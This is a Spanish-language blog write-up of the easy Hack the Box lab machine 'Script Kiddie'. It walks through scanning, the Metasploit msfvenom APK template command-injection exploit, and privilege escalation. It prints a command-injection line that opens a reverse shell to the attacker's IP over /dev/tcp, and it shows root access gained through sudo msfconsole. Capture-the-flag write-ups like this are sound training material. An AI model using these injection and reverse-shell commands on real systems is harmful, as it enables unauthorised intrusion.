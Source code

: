 ```yaml
---
description: >-
  G4l1l30 write-up on the easy-difficulty Linux machine Script Kiddie from
  https://hackthebox.eu
title: Hack the Box - Script Kiddie Writeup
date: 2021-06-5 10:40:00 -0600
categories: [Hack the Box, Writeup]
tags: 
- htb
- hacking
- hack the box
- redteam
- Linux
- msfvenom
- nmap
- pivoting
- msfconsole     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/Linux/ScriptKiddie/InfoCard-ScriptKiddie.png
layout: post
category: blog
author: RobertEncarnacion

---
```


# Summary

Script Kiddie es una maquina bastante sencilla, el usuario es pensar un poco fuera de la caja. La parte del root es analizar un script sh, inyectar codigo  para escalar hacia otra cuenta y de ahi con privilegios de sudo obtener una shell de root, esta maquina en si no tiene complejidad.

![masscan_01](/assets/img/Linux/ScriptKiddie/Infocard-scriptkiddie.png)

## Info de la maquina

| VM column  | Detalles      |
| ---------- | ------------- |
| Nombre     | Script Kiddie |
| Dificultad | Easy          |
| Release    | 06/02/2021    |
| OS         | Linux         |
| IP         | 10.10.10.226  |

Editamos ***/etc/hosts***  y agregamos la IP **10.10.10.226** que apunte hacia **scriptkiddie.htb** 

# Escaneo de Puertos

Escaneamos los puertos con Masscan y Nmap, utilizando **Masscan_To_Nmap** , esta herramienta escanea puertos TCP y UDP, toma los abiertos y ejecuta Nmap en búsqueda de servicios y scripts por default, mas info y donde conseguir el script: 

* > [https://github.com/Purp1eW0lf/Masscan_to_Nmap](masscan_to_nmap.py)

Ejecutamos el script : ``sudo python3 masscan_to_nmap.py -i 10.10.10.226`` 

![masscan_01](/assets/img/Linux/ScriptKiddie/masscan_01.png)

Tenemos los siguientes dos puertos : **5000** y **22** , el resultado de Nmap nos arroja lo siguiente:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
```



# Super H4x0r

Procedemos a verificar el puerto **5000**

![h4x0r](/assets/img/Linux/ScriptKiddie/h4x0r.png)

Un h4x0r WebSite xD, a simple vista tenemos tres(3) herramientas : **nmap** , **msfvenom** y **searchsploit** 

1) Nmap : 

![h4x0r](/assets/img/Linux/ScriptKiddie/h4x0r.png)

No se le puede sacar mas provecho.

2) Searchsploit : 

<img src="/assets/img/Linux/ScriptKiddie/h4x0r_02.png" alt="h4x0r_02" style="zoom:75%;" />

3) Msfvenom y why not, usaremos el mismo searchsploit para buscar algo al respecto: 

![h4x0r_03](/assets/img/Linux/ScriptKiddie/h4x0r_03.png)

Encontramos algo interesante, usaremos ese exploit.

![msf01](/assets/img/Linux/ScriptKiddie/msf01.png)

# User 

``exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`` 



![msf02](/assets/img/Linux/ScriptKiddie/msf02.png)



Esto nos va a generar un archivo **.apk** 

![msf03](/assets/img/Linux/ScriptKiddie/msf03.png)

![msf04](/assets/img/Linux/ScriptKiddie/msf04.png)



Ponemos netcat a la escucha y : 

![msf05](/assets/img/Linux/ScriptKiddie/msf05.png)

Le hacemos un upgrade a nuestra shell: 

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![kid_user](/assets/img/Linux/ScriptKiddie/kid_user.png)

Ya tenemos el 1er flag :) 



# Root

No hay mucho que hacer, no hay privilegios con sudo, no hay archivos con lo que podamos interactuar, nada interesante en el crontab o en los procesos, asi que hacemos algo de enum basico y nos movemo hacia el otro usuario **pwn** : ``/home/pwn`` veremos un script sh :

![kid_02](/assets/img/Linux/ScriptKiddie/kid_02.png)

Mientras se cumpla la condicion , ejecuta la sentencia de nmap y lo escribe en **hackers** , dado que el script es del usuario **pwn** :

![pwn](/assets/img/Linux/ScriptKiddie/pwn.png)

Intentaremos meter codigo para obtener un rev shell: 

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.29/4445 0>&1' #" >> hackers
```

![pwn_01](/assets/img/Linux/ScriptKiddie/pwn_01.png)

![pwn_02](/assets/img/Linux/ScriptKiddie/pwn_02.png)

Verificamos los privilegios de sudo :

 

![root_01](/assets/img/Linux/ScriptKiddie/root_01.png)

Procedemos : 

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

![root_02](/assets/img/Linux/ScriptKiddie/root_02.png)

:) 

![root_03](/assets/img/Linux/ScriptKiddie/root_03.png)

Una maquina bastante sencilla, con esto finalizamos el writeup.

![gali](/assets/img/Linux/ScriptKiddie/gali.png)

